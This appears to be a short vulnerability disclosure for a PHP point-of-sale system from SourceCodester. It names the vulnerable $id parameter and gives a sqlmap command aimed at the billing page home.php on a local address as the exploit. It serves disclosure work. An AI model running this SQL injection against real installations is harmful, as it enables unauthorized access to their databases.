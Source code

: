 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220938975-dbee6d10-b0ef-4bec-bcf1-63b8b41e2855.png)


exp

```
sqlmap.py -u "http://192.168.31.50/kruxton/billing/home.php?id=1"
```
![image](https://user-images.githubusercontent.com/30823782/220944050-4882843c-d488-4f63-9408-cbcf446a6f05.png)

